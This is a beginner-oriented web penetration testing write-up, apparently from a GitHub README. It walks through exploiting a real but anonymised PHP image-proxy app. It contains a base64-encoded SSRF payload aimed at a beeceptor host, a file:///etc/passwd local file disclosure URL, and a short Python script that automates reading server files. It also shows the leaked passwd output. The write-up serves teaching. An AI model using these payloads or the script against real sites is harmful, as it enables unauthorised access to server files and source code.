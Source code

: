 # Glimpse Into Web Penetration Testing
A web penetration testing example, that I did me and @Edd13Mora in our free time, for beginners to have an idea about websec.

Our target is a PHP web application, which gives you great tools that you can use on XXX and XXX, such as the one that gives you the ability to download a full size profile picture for a specific profile which leads us to write this write-up.

Compiling SSRF and Local File Disclosure, we were able to read the entire source code and get more vulnerabilities like SQL Injection until we got to the admin panel and were able to get the encoded login information.

## **Server-Side Request Forgery (SSRF)**

When we enter our profile name, the app redirects us, to another page with basic profile information like username, number of followers and account bio, and also gives you a download link for a full size profile picture that looks like this:

```
https://XXXXXXXXXX/XXXXXX/[BASE64].jpg
```

With Base64 in the download URL, it actually looks weird, after we decode it we can see that it's actually an Instagram image link, so we assumed the app ignores `.jpg` and just decodes base64 and sends a request to it and returns its content to us.

As we can see here:

```php
if ( !isset( $_GET["url"] ) ){
	exit();
}
$url_encoded = str_replace(".jpg", "", $_GET["url"]);
```

It will check if the parameter `url` exists, in that case `.jpg` will be replaced with nothing after that:

```php
$url = base64_decode( $url_encoded );
```

It will decode it, send the request, and print the response as we can see here:

```php
$data_headers = array();

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url ); 
curl_setopt($ch, CURLOPT_CUSTOMREQUEST, "GET");
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
curl_setopt($ch, CURLOPT_HEADERFUNCTION, "header_callback");
curl_setopt($ch, CURLINFO_HEADER_OUT, 	 true);

$resp = curl_exec($ch);

curl_close ($ch);

foreach( $data_headers as $data_header){

	header( $data_header );
}

echo $resp;
```

To exploit this vulnerability, we can simply generate a malicious Base64 encoded string of our host URL in `beeceptor` so that we can check if the application is sending a request to any given URL without any checking, and it would be something like this:

```
https://XXXXXXXXXX/XXXXXX/aHR0cHM6Ly9oaGhoaC5mcmVlLmJlZWNlcHRvci5jb20=.jpg
```

Where `aHR0cHM6Ly9oaGhoaC5mcmVlLmJlZWNlcHRvci5jb20=` is our `beeceptor` URL base64 encoded.

After sending the request with our malicious payload we can see that we got a request in `beeceptor` and VOILA!! a SSRF.

## Local File Disclosure

The application does not perform any additional URL checks, which will allow us to read local files using the file URI schema, which looks like this:

```
file://[PATH]
```

We tried to read the `/etc/passwd/` file to get to know the target more, and were able to do that easily by creating a malicious URL and sending a request to it.

```
https://XXXXXXXXXX/XXXXXX/ZmlsZTovLy9ldGMvcGFzc3dkCg==.jpg // ZmlsZTovLy9ldGMvcGFzc3dkCg== -> file:///etc/passwd
```

The output will be messy in the browser, so we made an exploitation script that automate the whole process for us, and the output will be formatted:

```python
#!/usr/bin/python3
import requests, sys, base64
print(requests.get(f"https://www.XXXXXXXXXX.com/XXXXXX/{base64.b64encode(('file:///'+sys.argv[1]).encode('utf-8')).decode('utf-8')}.jpg").text)
```

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
....
cpanelphppgadmin:x:996:992:phpPgAdmin for cPanel & WHM:/var/cpanel/userhomes/cpanelphppgadmin:/usr/local/cpanel/bin/noshell
cpanelphpmyadmin:x:995:991:phpMyAdmin for cPanel & WHM:/var/cpanel/userhomes/cpanelphpmyadmin:/usr/local/cpanel/bin/noshell
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/false
cpses:x:994:990::/var/cpanel/cpses:/sbin/nologin
rhtmuczev5qgvzjk:x:1002:1005::/home2/rhtmuczev5qgvzjk:/usr/local/cpanel/bin/noshell
```

Reading the `passwd` file, we were able to tell that the target is hosted with `WHM / CPANEL`, and if you're not familiar with it, you can go ahead and check: [https://cpanel.net/products/](https://cpanel.net/products/), now we know the website won't be in `/var/www/html`, to access the source code and be able to read it we need to know the exact path to the `cpanel` user home path `rhtmuczev5qgvzjk`, luckily we already have `/home2/rhtmuczev5qgvzjk` in `passwd` file so it would be something like `/home2/rhtmuczev5qgvzjk/public_html/`, you can check [https://forums.cpanel.net/threads/home-path-for-user-is-alias.7474/](https://forums.cpanel.net/threads/home-path-for-user-is-alias.7474/) for more information, to be sure we tried read the `index.php` file and as expected we did.

```php
<?php require_once("common/functions.php"); ?>
<!DOCTYPE html>
<html lang="en">
<head>
....
<?php include("common/widgets/footer.php"); ?>

<script type="text/javascript">
        ga('send', 'pageview', '/');
</script>

</body>
</html> 
```

So hoping to get to the server, we've fetched all the source code and we are now ready for a nice code analysis.

```
WITHOUT THE PERMISSION OF THE WEBSITE OWNER, WE WERE NOT ABLE TO SHARE THIS PART.
```
